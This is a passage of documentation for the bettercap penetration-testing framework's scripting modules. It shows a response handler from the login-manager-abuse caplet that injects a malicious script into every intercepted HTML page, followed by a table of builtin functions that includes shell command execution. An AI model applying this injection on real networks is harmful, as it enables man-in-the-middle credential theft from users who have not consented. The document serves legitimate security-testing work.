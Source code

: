The [login-man-abuse.cap caplet](https://github.com/bettercap/caplets/blob/master/login-manager-abuse/login-man-abuse.cap) instead will use the `onResponse` handler to inject its malicious javascript file in every html response:

```js
function onResponse(req, res) {
  if (res.ContentType.indexOf("text/html") == 0) {
    var body = res.ReadBody();
    if (body.indexOf("</head>") != -1) {
      res.Body = body.replace(
        "</head>",
        '<script type="text/javascript">' +
          "\n" +
          AbuserJavascript +
          "</script>" +
          "</head>"
      );
    }
  }
}
```

#### Builtin Functions

Modules can use the following builtin functions.

| Function                                    | Description                                                                   |
| ------------------------------------------- | ----------------------------------------------------------------------------- |
| `readDir("/path/")`                         | Return the contents of a directory as a string array.                         |
| `readFile("/path/to/file")`                 | Return the contents of a file as a string.                                    |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")`                      | Log a message in the interactive session (its level will be `DEBUG`).         |
| `log_info("message")`                       | Log a message in the interactive session (its level will be `INFO`).          |
| `log_warn("message")`                       | Log a message in the interactive session (its level will be `WARNING`).       |
| `log_error("message")`                      | Log a message in the interactive session (its level will be `ERROR`).         |
| `log_fatal("message")`                      | Log a message in the interactive session (its level will be `FATAL`).         |
| `log("message")`                            | Shortcut for `log_info("message")`.                                           |
| `btoa("message")`                           | Encode a message to base64.                                                   |
| `atob("bWVzc2FnZQ==")`                      | Decode a message from base64.                                                 |
| `gzipCompress("plaintext data")`            | Compress a string using gzip encoding.                                        |
| `gzipDecompress(")9�\+�I��+I�(QHI,I����")`  | Decompress a gzip encoded string.                                             |
| `env("iface.ipv4")`                         | Read a variable.                                                              |
| `env("foo", "bar")`                         | Set a variable.                                                               |
| `run("command")`                            | Execute a shell command and return the output as a string.                    |
| `fileExists("/path/to/file")`               | Return `true` if the file exists, otherwise `false`.                          |
| `loadJSON("/path/to/file.json")`            | Load and parse a JSON file, returns a JS object.                              |
| `saveJSON("/path/to/file.json", object)`    | Serialize and save a JS object as JSON to the specified file.                 |
| `saveToFile("/path.txt", "data")`           | Save raw string data to a file.                                               |
| `onEvent("event.tag", callback)`            | Register a JS callback for the given session event tag.                       |
| `removeEventListener("event.tag")`          | Remove a previously registered event listener for the given tag.              |
